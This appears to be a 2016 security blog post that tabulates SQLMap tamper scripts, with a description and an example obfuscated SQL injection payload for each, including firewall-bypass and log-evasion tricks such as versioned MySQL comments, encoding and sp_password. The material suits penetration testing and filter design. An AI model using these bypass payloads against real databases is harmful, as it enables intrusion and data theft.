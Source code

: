 +++
title = "SQLMap Tamper Scripts Update"
date  = "2016-07-04"
tags  = ["sqli", "sqlmap"]
+++

So my last post from three years ago was pretty well received, with the rate at which SQLMap is developed it is definitely behind.r,

Here's an updated graph of all tamper scripts included with the latest version (as of time of writing, 04/July/2016).

I will be putting something together, possibly as a commit to the SQLMap project to aid with these. Will update once done so stay tuned.

|                              |                                                                                                                                    |                                                                                                                                                                                                             |
|------------------------------|------------------------------------------------------------------------------------------------------------------------------------|-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| Name                         | Description                                                                                                                        | Example                                                                                                                                                                                                     |
| apostrophemask.py            | Replaces apostrophe character with its UTF-8 full width counterpart                                                                | '1 AND %EF%BC%871%EF%BC%87=%EF%BC%871'                                                                                                                                                                      |
| apostrophenullencode.py      | Replaces apostrophe character with its illegal double unicode counterpart                                                          | '1 AND %271%27=%271'                                                                                                                                                                                        |
| appendnullbyte.py            | Appends encoded NULL byte character at the end of payload                                                                          | '1 AND 1=1'                                                                                                                                                                                                 |
| base64encode.py              | Base64 all characters in a given payload                                                                                           | 'MScgQU5EIFNMRUVQKDUpIw=='                                                                                                                                                                                  |
| between.py                   | Replaces greater than operator ('>') with 'NOT BETWEEN 0 AND #'                                                                    | '1 AND A NOT BETWEEN 0 AND B--'                                                                                                                                                                             |
| bluecoat.py                  | Replaces space character after SQL statement with a valid random blank character.Afterwards replace character = with LIKE operator | 'SELECT%09id FROM users where id LIKE 1'                                                                                                                                                                    |
| chardoubleencode.py          | Double url-encodes all characters in a given payload (not processing already encoded)                                              | '%2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545'                                                                                       |
| commalesslimit.py            | Replaces instances like 'LIMIT M, N' with 'LIMIT N OFFSET M'                                                                       | ''LIMIT 3 OFFSET 2''                                                                                                                                                                                        |
| commalessmid.py              | Replaces instances like 'MID(A, B, C)' with 'MID(A FROM B FOR C)'                                                                  | 'MID(VERSION() FROM 1 FOR 1)'                                                                                                                                                                               |
| concat2concatws.py           | Replaces instances like 'CONCAT(A, B)' with 'CONCAT_WS(MID(CHAR(0), 0, 0), A, B)'                                                  | 'CONCAT_WS(MID(CHAR(0),0,0),1,2)'                                                                                                                                                                           |
| charencode.py                | Url-encodes all characters in a given payload (not processing already encoded)                                                     | '%53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45'                                                                                                                                     |
| charunicodeencode.py         | Unicode-url-encodes non-encoded characters in a given payload (not processing already encoded)                                     | '%u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045'                                                                |
| equaltolike.py               | Replaces all occurances of operator equal ('=') with operator 'LIKE'                                                               | 'SELECT * FROM users WHERE id LIKE 1'                                                                                                                                                                       |
| escapequotes.py              | Slash escape quotes (' and ")                                                                                                      | '1\\\\" AND SLEEP(5)#'                                                                                                                                                                                      |
| greatest.py                  | Replaces greater than operator ('>') with 'GREATEST' counterpart                                                                   | '1 AND GREATEST(A,B+1)=A'                                                                                                                                                                                   |
| halfversionedmorekeywords.py | Adds versioned MySQL comment before each keyword                                                                                   | "value'/*!0UNION/*!0ALL/*!0SELECT/*!0CONCAT(/*!0CHAR(58,107,112,113,58),/*!0IFNULL(CAST(/*!0CURRENT_USER()/*!0AS/*!0CHAR),/*!0CHAR(32)),/*!0CHAR(58,97,110,121,58)),/*!0NULL,/*!0NULL#/*!0AND 'QDWa'='QDWa" |
| ifnull2ifisnull.py           | Replaces instances like 'IFNULL(A, B)' with 'IF(ISNULL(A), B, A)'                                                                  | 'IF(ISNULL(1),2,1)'                                                                                                                                                                                         |
| modsecurityversioned.py      | Embraces complete query with versioned comment                                                                                     | '1 /*!30874AND 2>1*/--'                                                                                                                                                                                     |
| modsecurityzeroversioned.py  | Embraces complete query with zero-versioned comment                                                                                | '1 /*!00000AND 2>1*/--'                                                                                                                                                                                     |
| multiplespaces.py            | Adds multiple spaces around SQL keywords                                                                                           | '1 UNION SELECT foobar'                                                                                                                                                                                     |
| nonrecursivereplacement.py   | Replaces predefined SQL keywords with representations suitable for replacement (e.g. .replace("SELECT", "")) filters               | '1 UNIOUNIONN SELESELECTCT 2--'                                                                                                                                                                             |
| percentage.py                | Adds a percentage sign ('%') infront of each character                                                                             | '%S%E%L%E%C%T %F%I%E%L%D %F%R%O%M %T%A%B%L%E'                                                                                                                                                               |
| overlongutf8.py              | Converts all characters in a given payload (not processing already encoded)                                                        | 'SELECT%C0%AAFIELD%C0%AAFROM%C0%AATABLE%C0%AAWHERE%C0%AA2%C0%BE1'                                                                                                                                           |
| randomcase.py                | Replaces each keyword character with random case value                                                                             | 'INseRt'                                                                                                                                                                                                    |
| randomcomments.py            | Add random comments to SQL keywords                                                                                                | 'I/**/N/**/SERT'                                                                                                                                                                                            |
| securesphere.py              | Appends special crafted string                                                                                                     | "1 AND 1=1 and '0having'='0having'"                                                                                                                                                                         |
| sp_password.py               | Appends 'sp_password' to the end of the payload for automatic obfuscation from DBMS logs                                           | '1 AND 9227=9227-- sp_password'                                                                                                                                                                             |
| space2comment.py             | Replaces space character (' ') with comments '/**/'                                                                                | 'SELECT/**/id/**/FROM/**/users'                                                                                                                                                                             |
| space2dash.py                | Replaces space character (' ') with a dash comment ('--') followed by a random string and a new line ('\n')                        | '1--nVNaVoPYeva%0AAND--ngNvzqu%0A9227=9227'                                                                                                                                                                 |
| space2hash.py                | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')                      | '1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227'                                                                                                                                                               |
| space2morehash.py            | Replaces space character (' ') with a pound character ('#') followed by a random string and a new line ('\n')                      | '1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227'                                                                                                                                                 |
| space2mssqlblank.py          | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%0Eid%0DFROM%07users'                                                                                                                                                                                |
| space2mssqlhash.py           | Replaces space character (' ') with a pound character ('#') followed by a new line ('\n')                                          | '1%23%0AAND%23%0A9227=9227'                                                                                                                                                                                 |
| space2mysqlblank.py          | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%A0id%0BFROM%0Cusers'                                                                                                                                                                                |
| space2mysqldash.py           | Replaces space character (' ') with a dash comment ('--') followed by a new line ('\n')                                            | '1--%0AAND--%0A9227=9227'                                                                                                                                                                                   |
| space2plus.py                | Replaces space character (' ') with plus ('+')                                                                                     | 'SELECT+id+FROM+users'                                                                                                                                                                                      |
| space2randomblank.py         | Replaces space character (' ') with a random blank character from a valid set of alternate characters                              | 'SELECT%0Did%0DFROM%0Ausers'                                                                                                                                                                                |
| symboliclogical.py           | Replaces AND and OR logical operators with their symbolic counterparts (&& and ||)                                                 | "1 %26%26 '1'='1"                                                                                                                                                                                           |
| unionalltounion.py           | Replaces UNION ALL SELECT with UNION SELECT                                                                                        | '-1 UNION SELECT'                                                                                                                                                                                           |
| unmagicquotes.py             | Replaces quote character (') with a multi-byte combo %bf%27 together with generic comment at the end (to make it work)             | '1%bf%27 AND 1=1-- '                                                                                                                                                                                        |
| uppercase.py                 | Replaces each keyword character with upper case value                                                                              | 'INSERT'                                                                                                                                                                                                    |
| varnish.py                   | Append a HTTP header 'X-originating-IP'                                                                                            | http://h30499.www3.hp.com/t5/Fortify-Application-Security/Bypassing-web-application-firewalls-using-HTTP-headers/ba-p/6418366                                                                               |
| versionedkeywords.py         | Encloses each non-function keyword with versioned MySQL comment                                                                    | '1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,CONCAT(CHAR(58,104,116,116,58),IFNULL(CAST(CURRENT_USER()/*!AS*//*!CHAR*/),CHAR(32)),CHAR(58,100,114,117,58))#                                           |
| versionedmorekeywords.py     | Encloses each keyword with versioned MySQL comment                                                                                 | '1/*!UNION*//*!ALL*//*!SELECT*//*!NULL*/,/*!NULL*/,/*!CONCAT*/(/*!CHAR*/(58,122,114,115,58),/*!IFNULL*/(CAST(/*!CURRENT_USER*/()/*!AS*//*!CHAR*/),/*!CHAR*/(32)),/*!CHAR*/(58,115,114,121,58))#'            |
| xforwardedfor.py             | Append a fake HTTP header 'X-Forwarded-For'                                                                                        | ' headers["X-Forwarded-For"]'                                                                                                                                                                               |
